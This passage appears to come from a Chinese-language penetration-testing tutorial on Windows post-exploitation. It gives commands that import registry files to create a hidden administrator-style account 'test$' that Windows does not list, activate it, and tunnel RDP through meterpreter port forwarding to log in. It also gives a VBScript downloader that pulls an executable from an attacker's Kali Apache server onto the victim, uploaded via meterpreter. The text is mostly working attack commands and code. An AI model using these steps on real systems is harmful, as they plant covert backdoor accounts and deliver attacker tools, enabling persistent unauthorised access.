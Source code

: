`regedit /s 1.reg`

`regedit /s 2.reg`

隐藏账户制做完成，控制面板不存在帐户test$

通过net user无法列出该帐户
计算机管理-本地用户和组-用户也无法列出该帐户
但可通过如下方式查看: `net user test$`

![](https://upload-images.jianshu.io/upload_images/7216746-d859c1e608417eca.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

命令窗口打开后，键入` net user test$/active:yes`。输完后按一下回车键看到“命令成功完成”信息即表明超级隐藏账户test$ 账户已启用

端口转发:
`portfwd add -l 3389 -L 127.0.0.1 -p 3389 -r 192.168.114.138`

使用超级隐藏账户登录:
`rdesktop 127.0.0.1 -u test$ -p 123456`

![](https://upload-images.jianshu.io/upload_images/7216746-820af844be54e563.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

Windows 不会显示隐藏账户

![](https://upload-images.jianshu.io/upload_images/7216746-67ce675d571402e8.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)


### 使用vbs脚本上传SQLTOOLS.exe



注: 使用`service apache2 start`将kali linux apache2服务打开，可以使之充当服务器，将需要上传的文件放在`/var/www/html`目录下

脚本如下:

```
url = "http://192.168.114.130/SQL.exe"    '网络上的文件地址
saveas = "C:\hack\SQL.exe"                '保存成的本地文件
Set xmlhttp = CreateObject("Microsoft.XMLHTTP") '创建HTTP请求对象
Set stream = CreateObject("ADODB.Stream")       '创建ADO数据流对象
Call xmlhttp.open("GET",url,False)'打开连接
Call xmlhttp.send()'发送请求
stream.mode = 3 '设置数据流为读写模式
stream.type = 1     '设置数据流为二进制模式
Call stream.open()'打开数据流
Call stream.write(xmlhttp.responsebody)'将服务器的返回报文主体内容写入数据流
Call stream.savetofile(saveas,2)'将数据流保存为文件
'释放对象
Set xmlhttp = Nothing
Set stream = Nothing
```

在shell下，创建文件夹: `mkdir C:\\hack\\`

将脚本上传到创建好的名为hack的文件夹下:

`meterpreter > upload /root/down1.vps  C:\\hack`
